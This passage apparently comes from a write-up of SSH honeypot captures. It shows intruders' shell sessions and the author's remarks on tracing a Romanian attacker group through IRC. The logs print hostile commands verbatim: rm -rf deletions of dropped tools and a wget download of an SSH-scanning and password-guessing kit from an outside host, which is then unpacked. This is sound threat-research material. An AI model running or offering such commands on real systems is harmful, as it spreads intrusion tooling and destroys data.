     server:/var/tmp# cd f

    server:/var/tmp/f# rm -rf f

    server:/var/tmp/f# ls
    1         P&uÃ·   PÂ¦uÃ·  b         b2        bang.txt  f4        fwd
    hide      httpd     j         j2        mech.help mech.set  s         sl
    start.sh  std       stream    tty       v         v2        x

    server:/var/tmp/f# ./httpd
    unable to open display ":0"

    server:/var/tmp/f# chmod +x *

    server:/var/tmp/f# ./httpd
    unable to open display ":0"

    server:/var/tmp/f# cd..
    bash: cd..: command not found

    server:/var/tmp/f# cd ..

    server:/var/tmp# rm -rf f

    server:/var/tmp# ls
    flood.tgz    gosh.tgz.tar

    server:/var/tmp# rm -rf flood.tgz

    server:/var/tmp# rm -rf gosh.tgz.tar93

## Fourth example

Another attempt. Checking out the website http://eu-ro.ca/ reveals what seems to be a Romanian hacker group/set-up. Peeking in the bot configuration often reveals obscure IRC channels on Undernet. Following these channels quickly leads you to a whole set-up of channels, bots, and hackers. If you manage to lay low there, you can gain a lot of info (bot commands, group leaders, group set-up, targets and so on), but be prepared for some bans and insults as well. If I had some more spare time, I would set up a few dedicated honeypots (with more advanced shell simulation) and try to uncover more.

    server:~# mkdir /tmp/.user

    server:~# cd /tmp/.user

    server:/tmp/.user# wget http://eu-ro.ca/.kde.tgz
    --2011-01-26 23:46:15--  http://eu-ro.ca/.kde.tgz
    Connecting to eu-ro.ca:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1238822 (1M) [application/x-gzip]
    Saving to: `.kde.tgz

    100%[======================================>] 1,238,822    327K/s  eta 0s

    2011-01-26 23:46:19 (327 KB/s) - `.kde.tgz' saved [1238822/1238822]

    server:/tmp/.user# tar zxvf .kde.tgz
    .kde
    .kde/pass_filees
    .kde/pscan2
    .kde/a1
    .kde/common
    .kde/pass_file
    .kde/ssh-scan
    .kde/auto
    .kde/ss
    .kde/go.sh
    .kde/a
    .kde/gen-pass.sh
    .kde/start
    .kde/vuln.txt
    .kde